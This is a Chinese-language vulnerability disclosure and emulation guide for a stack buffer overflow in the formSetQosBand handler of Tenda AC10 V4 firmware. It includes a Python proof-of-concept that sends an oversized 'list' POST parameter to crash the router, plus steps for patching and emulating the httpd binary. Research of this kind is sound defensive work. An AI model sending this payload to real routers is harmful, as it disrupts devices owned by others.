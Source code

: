 # Vulnerability Discovery

## 记: IoT路由固件漏洞挖掘

### 产品

* Tenda AC10
* 固件下载地址: [https://www.tenda.com.cn/download/detail-3684.html](https://www.tenda.com.cn/download/detail-3684.html)
* 硬件版本: V4.0
* 软件版本: V16.03.10.20
* 说明：此固件仅适用于AC10 v4型号的机器升级

### 影响版本

V16.03.10.20

### 漏洞细节

Tenda AC10 V16.03.10.20固件在**`formSetQosBand`**函数中存在**堆栈溢出漏洞**。

<figure><img src="../.gitbook/assets/1 (2).png" alt=""><figcaption></figcaption></figure>

从POST请求接收“list”参数赋值给变量s，该变量作为参数传递到函数**`set_qosMb_list`**中。在函数**`set_qosMb_list`**中，变量a1被传递给s，后者随后被分配给v9变量，该变量固定为256字节。然而，由于用户可以控制列表的输入，因此语句`strcpy（v9,s)`可能导致缓冲区溢出。用户提供的列表可能超过v9变量的容量，从而触发此安全漏洞。

<figure><img src="../.gitbook/assets/2 (2).png" alt=""><figcaption></figcaption></figure>

### Exp

```
import requests
from pwn import*
​
ip = "***"  #仿真IP地址
url = "http://" + ip + "/goform/SetNetControlList"
payload = b"a"*2000
​
data = {"list": payload} #溢出数据传递给list
res = requests.post(url, data=data)
```

#### 仿真

参考文章：

[https://blog.csdn.net/qq\_45894840/article/details/136514555](https://blog.csdn.net/qq\_45894840/article/details/136514555)

工具：

Binwalk、IDA 7.6 Pro、QEMU

详细过程：

首先使用Binwalk提取固件文件系统，提取后会在当前目录生成一个文件夹，进入文件夹，在squashfs-root目录下是路由器主要运行的一些东西

```
binwalk -Me 固件名称.bin
```





<figure><img src="../.gitbook/assets/3 (2).png" alt=""><figcaption></figcaption></figure>

需要分析的固件在bin目录下，bin/httpd这个程序就是路由器主要运行的固件，使用file命令可以得知路由器固件相关的信息，比如这次的路由二进制文件是mips指令架构，32位ELF

<figure><img src="../.gitbook/assets/4 (2).png" alt=""><figcaption></figcaption></figure>

尝试使用qemu运行，失败，权限不足，改用sudo以后发现路由器运行输出welcome以后卡住

<figure><img src="../.gitbook/assets/5 (2).png" alt=""><figcaption></figcaption></figure>

这是因为路由器检测环境功能的存在，接下来使用IDA破解路由器检测环境

#### IDA破解路由器检测环境

思路就是找到验证的代码nop掉验证的指令，patch二进制文件就可以，详细过程参考图片如下

先找到相关的代码，这里直接搜索字符串查看其xref

<figure><img src="../.gitbook/assets/6 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/7 (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../.gitbook/assets/8 (2).png" alt=""><figcaption></figcaption></figure>

定位到main函数，找到相关的代码，发现是一个while循环，通过了if的验证才能跳出：

<figure><img src="../.gitbook/assets/9 (1).png" alt=""><figcaption></figcaption></figure>

对应的汇编如下，也就是说需要nop掉红框中的两个跳转

<figure><img src="../.gitbook/assets/11 (1).png" alt=""><figcaption></figcaption></figure>

在IDA中Patch Bytes（Edit->Patch program->change byte）将前四字节修改为00，就能换成nop指令了

<figure><img src="../.gitbook/assets/12 (1).png" alt=""><figcaption></figcaption></figure>

完成以后打补丁（Edit->Patch program->Apply patches to input file）

替换文件以后需要注意给文件赋权限：

```
chmod 777 httpd
```

<figure><img src="../.gitbook/assets/13 (1).png" alt=""><figcaption></figcaption></figure>

最后仿真（添加新的网卡，这里一开始我没有添加正确一直创建soccket报错卡了很久啊啊啊）

<figure><img src="../.gitbook/assets/14 (1).png" alt=""><figcaption></figcaption></figure>

```
（sudo）：
brctl addbr br0
brctl addif br0 eth0 #注意！！！这里网卡绑自己虚拟机的eths
ifconfig br0 up
dhclient br0 
```

最后执行Poc成功触发漏洞：

<figure><img src="../.gitbook/assets/15 (1).png" alt=""><figcaption></figcaption></figure>
